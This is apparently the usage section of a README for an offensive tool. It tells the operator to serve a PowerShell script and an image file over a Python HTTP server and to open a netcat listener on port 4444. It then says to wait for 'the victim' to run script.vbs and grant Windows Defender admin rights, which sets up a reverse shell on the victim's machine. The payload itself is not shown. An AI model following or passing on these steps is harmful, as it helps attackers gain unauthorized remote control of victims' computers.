 # Usage
Move the test.ps1 and login1.jpg to /var/www/html in your linux machine and start a listener in this directory. I prefer python: 
```
python3 -m http.server
```
After it starts runnin' on port 8000, open a separate terminal and run netcat on port 4444:
```
nc -lnvp 4444
```

Then all you need to do is wait for the victim to click on the 'script.vbs' of the repo and allow the admin windows defender.


